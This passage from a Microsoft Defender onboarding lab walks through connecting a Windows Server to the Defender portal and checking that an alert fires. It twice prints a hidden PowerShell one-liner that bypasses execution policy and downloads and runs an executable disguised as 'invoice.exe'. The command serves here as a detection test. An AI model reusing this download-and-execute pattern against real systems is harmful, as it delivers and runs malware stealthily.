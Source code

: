 12. Press a key to dismiss the cmd prompt
13. Open a new command prompt, run the following

    ```cmd
    powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden $ErrorActionPreference= 'silentlycontinue';(New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe', 'C:\\test-WDATP-test\\invoice.exe');Start-Process 'C:\\test-WDATP-test\\invoice.exe'
    ```

14. The command prompt should disappear
15. Switch to the Microsoft Defender Portal, under **Incidents and alerts**, select **Alerts**
16. After approximately 5 minutes, you should see an alert generated from the above command displayed.

    ![New alert is displayed](./media/defender_onboarding_winserver_test.png "New alert is displayed")

17. Select it, you should see the following:

    ![The alert details are displayed](./media/defender_onboarding_winserver_alert.png "The alert details are displayed")

### Task 2: Onboard Microsoft Defender Windows 2016 (Script)

Now that you have an `on-premises` environment, you can provision Microsoft Defender to your resources.

1. Browse to the Azure Portal
2. Browse to the **wssecuritySUFFIX-adpdc** virutal machine and connect to it over RDP
3. From the **wssecuritySUFFIX-adpdc** virtual machine, open the [Microsoft Defender Portal](https://security.microsoft.com)
4. Browse to the [Settings -> Endpoints page](https://security.microsoft.com/preferences2/onboarding/preferences2/onboarding)
5. Under **Device Management**, select **Onboarding**
6. In the operating system dropdown, select **Windows Server 2008 R2 SP1, 2012 R2 and 2016**
7. [Download the Microsoft Monitoring Agent (MMA)](https://go.microsoft.com/fwlink/?LinkId=828603)
8. Run the downloaded installer
   1. Select **Next**
   2. Select **I Agree**
   3. Select **Next**
   4. Select the **Connect the agent to Azure Log Analytics (OMS)**

      ![Connect to OMS](./media/mma_connect_oms.png "Connect to OMS")

   5. Select **Next**
   6. From the Microsoft Defender Portal, copy the workspace ID and key into the agent installer dialog
   7. Select **Next**
   8. Select **Next**
   9. Select **Install**
9. Open a command prompt, run the following

    ```cmd
    powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden $ErrorActionPreference= 'silentlycontinue';(New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe', 'C:\\test-WDATP-test\\invoice.exe');Start-Process 'C:\\test-WDATP-test\\invoice.exe'
    ```
